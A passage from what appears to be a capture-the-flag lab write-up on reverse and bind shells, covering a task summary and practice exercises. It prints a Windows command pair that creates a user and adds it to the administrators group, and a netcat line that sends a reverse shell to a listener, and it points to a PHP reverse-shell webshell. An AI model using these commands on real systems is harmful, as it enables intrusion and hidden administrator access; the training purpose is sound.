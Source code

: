 <p>The syntax for this is as follows:<br>
<code>net user <username> <password> /add</code><br>
<code>net localgroup administrators <username> /add</code></p><br>

<br>
<br>

<p><strong>The important take away from this task:</strong></p>
<p>Reverse and Bind shells are an essential technique for gaining remote code execution on a machine, however, they will never be as fully featured as a native shell. Ideally we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitation of the target.</p>

> 12.1 - <em>Read the above information.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>


<h2>Task 13 - Practice and Examples</h2>
<br>

<p>This room contained a lot of information, and gave you little opportunity to put it into practice throughout. The following two tasks contain virtual machines (one Ubuntu 18.04 server and one Windows server), each configured with a simple webserver with which you can upload and activate shells. This is a sandbox environment, so there will be no filters to bypass. Login credentials and instructions for each will also be given, should you wish to log in to practice with netcat, socat or meterpreter shells.<br>

The remainder of this task will consist of shell examples for you to try out on the practice boxes.</p>

> 13.1 - <em>Try uploading a webshell to the Linux box, then use the command: <code>nc <LOCAL-IP> <PORT> -e /bin/bash</code> to send a reverse shell back to a waiting listener on your own machine.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>

> 13.2 - <em>Navigate to <code>/usr/share/webshells/php/php-reverse-shell.php</code> in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>

> 13.3 - <em>Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>

> 13.4 - <em>Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>

> 13.5 - <em>Look through <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">Payloads all the Things</a> and try some of the other reverse shell techniques. Try to analyse them and see why they work.</em>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>
